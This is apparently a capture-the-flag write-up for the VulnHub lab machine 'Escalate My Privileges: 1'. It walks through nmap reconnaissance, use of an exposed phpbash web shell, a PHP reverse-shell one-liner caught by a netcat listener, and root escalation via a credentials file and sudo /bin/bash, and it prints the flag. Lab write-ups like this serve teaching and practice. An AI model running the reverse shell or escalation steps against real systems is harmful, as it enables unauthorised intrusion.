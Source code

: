 # Escalate My Privileges: 1

- [Tools](#tools)
- [Gaining Access](#gaining-access)
- [Priviledge Escalation](#priviledge-escalation)

Machine: https://www.vulnhub.com/entry/escalate-my-privileges-1,448/ 

## Tools
1. [NMap](https://NMap.org)
2. netcat
3. md5sum

## Gaining Access
1. After Running the VM as bridged connection, I checked my gateway page to find IP. In my case ip is `192.168.0.11`.
2. Scan with `NMap` gives some open ports.
3. Nmap with this command `nmap -A 192.168.0.11` gives an url `http://192.168.0.11/phpbash.php`.
4. It’s a shell on that link. We can execute command as user `apache`.
5. Running this command `php -r '$sock=fsockopen("192.168.0.4",1337);exec("/bin/sh -i <&3 >&3 2>&3");'` with my ip port gives a `netcat` shell to my listner `nc -lvnp 1337`.
6. We got shell as `armour`.

## Priviledge Escalation
1. On `/home/armour` directory there is a file named `Credentials.txt`. Inside it we get password `md5(rootroot1)`.
2. Spawn tty shell, convert `md5sum` of the `rootroot1` to use as password. Then login as `armour` with `md5sum` of `rootroot1`.
3. Using `sudo -l` command shows `/bin/bash` could be used to get root shell. 
4. Used `sudo /bin/bash` command to `root`.
5. We can get flag inside `/root/flag.txt` by using command.`cat /root/flag.txt` The flag is  `628435356e49f976bab2c04948d22fe4`.

Author: [Zishan Ahamed Thandar](https://github.com/ZishanAdThandar/WriteUps/tree/main?tab=readme-ov-file#about-me)

